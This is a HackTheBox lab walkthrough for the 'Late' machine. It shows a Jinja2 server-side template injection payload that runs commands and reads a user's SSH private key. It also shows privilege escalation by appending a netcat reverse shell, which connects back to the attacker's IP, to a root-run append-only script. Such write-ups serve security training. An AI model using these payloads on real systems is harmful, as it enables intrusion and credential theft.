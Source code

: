 # Hackthebox - Late


This post is focused on the walkthrough of Easy Machine Late from HackTheBox.

<!--more-->

## Enumeration

Starting out with the initial nmap scan.

```bash
nmap -A -vv 10.10.11.156 -oN nmapN
```

![Nmap Scan](1.png "Nmap Scan")

We have ports 22 and 80 is open. So let's enumerate port 80 now.

![Website](2.png "Website")

We have a website here titled Late.

Scrolling through the website I found a link pointing to *images.late.htb*.

![images.late.htb link](3.png "images.late.htb link")

Let's add late.htb and images.late.htb in our /etc/hosts file.

```bash
echo "10.10.11.156 late.htb " | sudo tee -a /etc/hosts
echo "10.10.11.156 images.late.htb " | sudo tee -a /etc/hosts
```

Visiting *images.late.htb* we have,

![images.late.htb page](4.png "images.late.htb page")

The title says it converts image to text. Let's try that out. 

I took a screenshot of a text and uploaded the file and it returned with the correct text. I uploaded,

![Test Screenshot](5.png "Test Screenshot")

It returned,

![Test Output](6.png "Test Output")

Since the title of the page says it converts image to text with flask. I started trying most common vulnerability of flask Server Side Template Injection (SSTI).

I uploaded the following payload.

![Test Payload](7.png "Test Payload")

And it returned *49*.

This confirmed the SSTI. I further enumerated to confirm the template engine and it turned out to be Jinja2.

## Gaining Access

For command injection, I injected the following payload from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection).

```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```

And got the following output.

![Test Output](8.png "Test Output")

Boom! Our command successfully got injected. Let's grab the ssh private key for a stable command shell.

```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /home/svc_acc/.ssh/id_rsa').read() }}
```

The output,

![RSA Private Key](9.png "RSA Private Key")

## user.txt

```bash
ssh -i id_rsa svc_acc@late.htb
```

![user.txt](10.png "user.txt")

## Privilege Escalation

After enumerating for a while I came across a file in */usr/local/sbin*.

![/usr/local/sbin](11.png "/usr/local/sbin")

Reading the file's contents.

![ssh-alert.sh](12.png "ssh-alert.sh")

As can be seen this file is sending a mail to *root@late.htb* every time a ssh login is detected.

I tried manipulating the file's contents but got a message Operation not permitted.

Checking the file's attributes.

![lsattr](13.png "lsattr")

Since 'a' (append only) flag is enabled, we can append our code within the script to escalate our privileges.

I appended a reverse shell in the script which will connect back to my machine as root.

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 4444 >/tmp/f" >> ssh-alert.sh
```

On my machine I started up a netcat listener

Now I need to login using ssh again and I'll get a connection back to my machine.

![nc listener](14.png "nc listener")

## root.txt

![root.txt](15.png "root.txt")

<center>
<img src="16.gif" alt="yess" width="400"/>
</center>

**Thanks for reading!**

